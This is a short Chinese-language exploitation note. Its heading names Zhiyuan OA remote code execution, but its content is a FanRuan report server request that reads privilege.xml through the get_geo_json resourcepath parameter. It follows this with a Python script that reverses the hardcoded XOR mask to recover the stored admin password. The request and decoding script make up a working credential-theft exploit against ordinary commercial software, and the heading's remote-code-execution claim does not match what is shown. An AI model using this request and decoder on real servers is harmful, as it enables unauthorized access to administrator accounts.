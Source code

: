# 致远OA远程代码执行

访问地址

```
http://192.168.16.117:8075/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```

查看到一个账号和密码，但是这个密码被加密过

在帆软系统中使用硬编码的方式存储照着解密算法，我们使用Python写一份解密脚本

![image-20210410143550365](images/%E8%87%B4%E8%BF%9COA.assets/image-20210410143550365.png)

```python
def decode(cipher):
    passwd_mask_array = [19, 78, 10, 15, 100, 213, 43, 23]
    passwd = ""
    cipher = cipher[3:]
    for i in range(int(len(cipher) / 4)):
        c1 = int("0x" + cipher[i * 4:(i+1)*4],16)
        c2 = c1 ^ passwd_mask_array[i % 8]
        passwd+=chr(c2)
    return passwd

if __name__ == '__main__':
    cipher = '___0022007c0039003b005100e3'
    print(decode(cipher))
    # 最后算到密码为：123456
```